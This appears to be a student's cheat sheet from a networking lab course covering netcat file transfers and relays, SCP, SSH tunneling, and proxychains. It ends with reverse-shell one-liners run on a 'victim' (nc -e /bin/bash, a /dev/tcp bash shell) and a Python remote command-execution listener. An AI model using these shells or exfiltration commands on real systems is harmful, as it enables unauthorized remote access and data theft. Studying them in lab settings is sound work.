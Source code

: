 # Commands

find / -name hint* 2> /dev/null
find / -name flag* 2> /dev/null
ss -ntlp


















- mknod                                                              # make a node in memory. needed for named pipes in netcat two way tunnel
- mknod mypipe p                                                     # Example of a node
- nc -lvp 10.0.0.1:1111 < mypipe | nc -lvp 10.0.0.2:3333 > mypipe    # Example to direct connect the two devices with a netcat relay
- nc -lp 1111 < mypipe | nc -lp 2222 > mypipe                        # Example for a relay that just opens the ports and waits for the other devices to connect.

## FTP Commands
> FTP commands to download and travers
- ls         # list directory
- pwd        # show present directory
- cd         # change directories
- get        # Download a file  
- wget -r    # recursively get everthing in the present directory. 
> you can specify the port like this.
- wget -r 10.0.0.103:1000 

## SCP
### SCP Options
```
.  - Present working directory
-v - verbose mode
-P - alternate port
-r - recursively copy an entire directory
-3 - 3-way copy
```

### SCP Syntax
- Download a file from a remote directory to a local directory
```$ scp student@172.16.82.106:secretstuff.txt /home/student```
- Upload a file to a remote directory from a local directory
```$ scp secretstuff.txt student@172.16.82.106:/home/student```
- Copy a file from a remote host to a separate remote host
```
$ scp -3 student@172.16.82.106:/home/student/secretstuff.txt student@172.16.82.112:/home/student
password:    password:
```

### SCP Syntax
- Recursive upload of a folder to remote
```$ scp -r folder/ student@172.16.82.106:```
- Recursive download of a folder from remote
```$ scp -r student@172.16.82.106:folder/ .```

### SCP Syntax w/ alternate SSHD
- Download a file from a remote directory to a local directory
```$ scp -P 1111 student@172.16.82.106:secretstuff.txt .```
- Upload a file to a remote directory from a local directory
```$ scp -P 1111 secretstuff.txt student@172.16.82.106:```

### SCP Syntax through a tunnel
- Create a local port forward to target device
```$ ssh student@172.16.82.106 -L 1111:localhost:22 -NT```
- Download a file from a remote directory to a local directory
```$ scp -P 1111 student@localhost:secretstuff.txt /home/student```
- Upload a file to a remote directory from a local directory
```$ scp -P 1111 secretstuff.txt student@localhost:/home/student```

### SCP Syntax through a Dynamic Port forward
- Create a Dynamic Port Forward to target device
```$ ssh student@172.16.82.106 -D 9050 -NT```
- Download a file from a remote directory to a local directory
```$ proxychains scp student@localhost:secretstuff.txt .```
- Upload a file to a remote directory from a local directory
```$ proxychains scp secretstuff.txt student@localhost:```


## NETCAT
### NETCAT: Client to Listener file transfer
- Listener (receive file):
```nc -lvp 9001 > newfile.txt```
- Client (sends file):
```nc 172.16.82.106 9001 < file.txt```


### NETCAT: Listener to Client file transfer
- Listener (sends file):
```nc -lvp 9001 < file.txt```
- Client (receive file):
```nc 172.16.82.106 9001 > newfile.txt```


### NETCAT Relay Demos
> Listener - Listener
- On Blue_Host-1 Relay:
```
$ mknod mypipe p
$ nc -lvp 1111 < mypipe | nc -lvp 3333 > mypipe
```
- On Internet_Host (send):
```$ nc 172.16.82.106 1111 < secret.txt```
- On Blue_Priv_Host-1 (receive):
```$ nc 192.168.1.1 3333 > newsecret.txt```


### NETCAT Relay Demos
> Client - Client
- On Internet_Host (send):
```$ nc -lvp 1111 < secret.txt```
- On Blue_Priv_Host-1 (receive):
```$ nc -lvp 3333 > newsecret.txt```
- On Blue_Host-1 Relay:
```
$ mknod mypipe p
$ nc 10.10.0.40 1111 < mypipe | nc 192.168.1.10 3333 > mypipe
```

### NETCAT Relay Demos
> Client - Listener
- On Internet_Host (send):
```$ nc -lvp 1111 < secret.txt```
- On Blue_Priv_Host-1 (receive):
```$ nc 192.168.1.1 3333 > newsecret.txt```
- On Blue_Host-1 Relay:
```
$ mknod mypipe p
$ nc 10.10.0.40 1111 < mypipe | nc -lvp 3333 > mypipe
```

### NETCAT Relay Demos
> Listener - Client
- On Internet_Host (send):
```$ nc 172.16.82.106 1111 < secret.txt```
- On Blue_Priv_Host-1 (receive):
```$ nc -lvp 3333 > newsecret.txt```
- On Blue_Host-1 Relay:
```
$ mknod mypipe p
$ nc -lvp 1111 < mypipe | nc 192.168.1.10 3333 > mypipe
```
nc 10.10.0.40 1111 < mypipe | nc -lvp 3333 > mypipe
### File Transfer with /dev/tcp
- On the receiving box:
```$ nc -lvp 1111 > devtcpfile.txt```
- On the sending box:
```$ cat secret.txt > /dev/tcp/10.10.0.40/1111```
- This method is useful for a host that does not have NETCAT available.


## Reverse Shells
https://net.cybbh.io/public/networking/latest/09_file_transfer/fg.html#_9_3_reverse_shells


### Reverse shell using NETCAT
- First listen for the shell on your device.
```$ nc -lvp 9999```
- On Victim using -c :
```$ nc -c /bin/bash 10.10.0.40 9999```
- On Victim using -e :
```$ nc -e /bin/bash 10.10.0.40 9999```



### Reverse shell using /DEV/TCP
- First listen for the shell on your device.
```$ nc -lvp 9999```
- On Victim:
```$ /bin/bash -i > /dev/tcp/10.10.0.40/9999 0<&1 2>&1```


### Reverse shell Python3
```
#!/usr/bin/python3
import socket
import subprocess
PORT = 1234        # Choose an unused port
print ("Waiting for Remote connections on port:", PORT, "\n")
server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
server.bind(('', PORT))
server.listen()
while True:
    conn, addr = server.accept()
    with conn:
        print('Connected by', addr)
        while True:
            data = conn.recv(1024).decode()
            if not data:
                break
            proc = subprocess.Popen(data.strip(), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
            output, err = proc.communicate()
            response = output.decode() + err.decode()
            conn.sendall(response.encode())
server.close()
```




```
ssh -p <optional alt port> <user>@<server ip> -L <local bind port>:<tgt ip>:<tgt port> -NT
or
ssh -L <local bind port>:<tgt ip>:<tgt port> -p <alt port> <user>@<server ip> -NT
```

























